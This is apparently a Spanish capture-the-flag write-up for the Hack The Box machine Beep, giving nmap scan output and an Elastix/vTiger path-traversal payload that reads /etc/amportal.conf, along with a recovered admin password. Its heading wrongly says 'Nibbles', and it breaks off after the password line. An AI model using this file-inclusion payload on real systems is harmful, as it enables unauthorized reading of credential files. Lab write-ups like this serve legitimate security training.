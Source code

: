 ```yaml
---
layout: post
title:  "OSCP Path ~ Beep de Hack The Box (Necesario VIP)"
categories: "HTB OSCP-PATH"
description: Writeup de la maquina de HackTheBox llamada BEEP siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, LFI, Python, Elastix, Maquinas Retiradas, Writeup, Hacking
---
```


# Nibbles ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.7       "
``` 

Procedemos con el siguiente escaneo de Nmap
```bash
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: LOGIN-DELAY(0) EXPIRE(NEVER) IMPLEMENTATION(Cyrus POP3 server v2) STLS RESP-CODES USER AUTH-RESP-CODE PIPELINING TOP UIDL APOP
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            876/udp   status
|_  100024  1            879/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: UIDPLUS MAILBOX-REFERRALS ANNOTATEMORE LITERAL+ RENAME OK ATOMIC MULTIAPPEND URLAUTHA0001 X-NETSCAPE BINARY IMAP4 SORT LISTEXT IDLE NAMESPACE Completed ID CATENATE ACL CONDSTORE IMAP4rev1 QUOTA THREAD=REFERENCES SORT=MODSEQ LIST-SUBSCRIBED NO STARTTLS RIGHTS=kxte CHILDREN UNSELECT THREAD=ORDEREDSUBJECT
443/tcp   open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2021-05-07T21:07:39+00:00; -2s from scanner time.
879/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: -2s
```
Buscamos por el puerto 80 o http y encontramos un loguin de `ELASTIX`.

Buscamos en `Searchsploit` y encontramos cosillas como un LFI
`"/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action"`

`ARI_ADMIN_PASSWORD=jEhdIekWmdjE#` AUTHTYPE=database|none# Authentication type to use for web admininstration.
